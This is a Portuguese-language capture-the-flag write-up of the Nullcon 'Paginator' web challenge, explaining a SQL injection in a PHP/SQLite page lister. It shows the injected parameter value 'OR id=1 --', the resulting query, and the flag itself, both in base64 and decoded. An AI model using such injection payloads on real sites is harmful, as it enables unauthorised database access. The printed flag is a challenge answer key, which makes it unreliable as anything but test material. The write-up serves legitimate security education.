


# Writeup: Paginator

**Plataforma**: Nullcon CTF  
**Categoria**: Web Exploitation
**Autor**: gehaxelt

## Desafio

O desafio "Paginator" apresenta um site vulnerável a SQL Injection, permitindo acesso não autorizado ao conteúdo do banco de dados SQLite. O objetivo é explorar essa vulnerabilidade para obter a flag.

---

## Solução

### 1. Análise do código

A análise do código PHP revela que a aplicação usa um banco de dados SQLite para armazenar páginas e suas respectivas descrições. O código relevante pode ser visto na imagem abaixo:



#### Pontos importantes:

- O banco de dados armazena páginas numeradas de **1 a 10**.
- A flag está armazenada na página "Flag", codificada em **Base64**.
- O código permite consultas SQL diretamente via parâmetro `p` na URL.
- A consulta **NÃO usa prepared statements**, tornando-a vulnerável a **SQL Injection**.

---

### 2. Identificação da vulnerabilidade

O site possui uma funcionalidade para listar páginas dentro de um intervalo de IDs, acessível pela URL:

```
/?p=2,10
```

A consulta SQL gerada é:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10;
```

Como não há filtragem de entrada adequada, podemos manipular o parâmetro para injetar SQL arbitrário.

---

### 3. Explorando a SQL Injection

Ao modificar a URL para:

```
/?p=2,10 OR id=1 --
```

Estamos alterando a consulta SQL para:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10 OR id=1 --
```

Isso força a inclusão da **página com ID 1**, que contém a flag.

**URL injetada:**



A resposta do servidor retorna a flag codificada em **Base64**:

```
RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9
```

---

### 4. Decodificação da Flag

Usamos uma ferramenta online ou o comando `base64 -d` no terminal:

```
echo 'RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9' | base64 -d
```

## Flag

```
ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}
```

---

## Autor da WriteUp

[Membro de Exploitation - jvittor1](https://github.com/jvittor1)
